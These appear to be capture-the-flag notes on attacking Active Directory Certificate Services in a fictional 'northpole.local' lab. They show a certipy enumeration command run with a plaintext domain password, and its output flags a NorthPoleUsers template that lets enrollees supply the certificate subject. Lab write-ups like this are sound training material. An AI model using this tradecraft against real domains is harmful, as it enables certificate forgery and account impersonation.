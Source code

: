 From the github: `Golden Certificates are certificates that are manually forged with a compromised CA's certificate and private key.`

So it looks like I need to compromise a vuln in the CA to get their cert and private key (maybe just the cert?)

This find command let me see the vuln in the NorthPoleUsers template:
```
alabaster@ssh-server-vm:~$ certipy find -u elfy@northpole.local -dc-ip 10.0.0.53 -password 'J4`ufC49/J4766' -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP
[*] Got CA configuration for 'northpole-npdc01-CA'
[*] Saved BloodHound data to '20231219063650_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20231219063650_Certipy.txt'
[*] Saved JSON output to '20231219063650_Certipy.json'
alabaster@ssh-server-vm:~$ cat '20231219063650_Certipy.txt'
Certificate Authorities
  0
    CA Name                             : northpole-npdc01-CA
    DNS Name                            : npdc01.northpole.local
    Certificate Subject                 : CN=northpole-npdc01-CA, DC=northpole, DC=local
    Certificate Serial Number           : 17C3C9AF16B4A4A94DD58A34DE34AF38
    Certificate Validity Start          : 2023-12-19 01:07:03+00:00
    Certificate Validity End            : 2028-12-19 01:17:03+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : NORTHPOLE.LOCAL\Administrators
      Access Rights
        ManageCertificates              : NORTHPOLE.LOCAL\Administrators
                                          NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        ManageCa                        : NORTHPOLE.LOCAL\Administrators
                                          NORTHPOLE.LOCAL\Domain Admins
                                          NORTHPOLE.LOCAL\Enterprise Admins
        Enroll                          : NORTHPOLE.LOCAL\Authenticated Users
Certificate Templates
  0
    Template Name                       : NorthPoleUsers
    Display Name                        : NorthPoleUsers
    Certificate Authorities             : northpole-npdc01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
```